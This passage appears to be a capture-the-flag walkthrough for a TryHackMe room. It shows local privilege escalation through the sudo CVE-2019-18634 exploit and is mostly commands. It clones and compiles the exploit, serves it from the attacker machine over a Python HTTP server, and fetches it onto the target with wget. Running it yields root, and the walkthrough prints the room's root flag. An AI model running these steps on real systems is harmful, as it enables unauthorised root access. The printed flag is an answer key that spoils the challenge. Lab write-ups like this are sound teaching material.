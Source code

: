 ```console
cd Deskstop  
mkdir cve-2019-18634  
cd cve-2019-18634  
git clone https://github.com/saleemrashid/sudo-cve-2019-18634
```

No answer

* #### Compile the exploit from Kali linux.
    
```console
cd sudo-cve-2019-18634  
make
```

No answer

* #### SCP the exploit binary to the box.
    

Copy and save this code to the KALI where you downloaded the exploit :

```python
import http.server  
import socketserver  
PORT = 8888  
Handler = http.server.SimpleHTTPRequestHandler  
with socketserver.TCPServer(("", PORT), Handler) as http:  
  print("serving at port", PORT)  
  http.serve_forever()
```

Run the above code :

```console
python server.py
```

No answer

* #### Run the exploit, get root.
    

On the SSH of James :

```console
cd /tmp  
wget 10.10.127.246:8888/exploit  
chmod +x exploit  
./exploit  
id  
uid=0(root)
```

No Answer

* #### What is the root flag?
    
```console
cat /root/root.txt  
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

Answer : thm{af55ada6c2445446eb0606b5a2d3a4d2}

[test]:      http://jekyllrb.com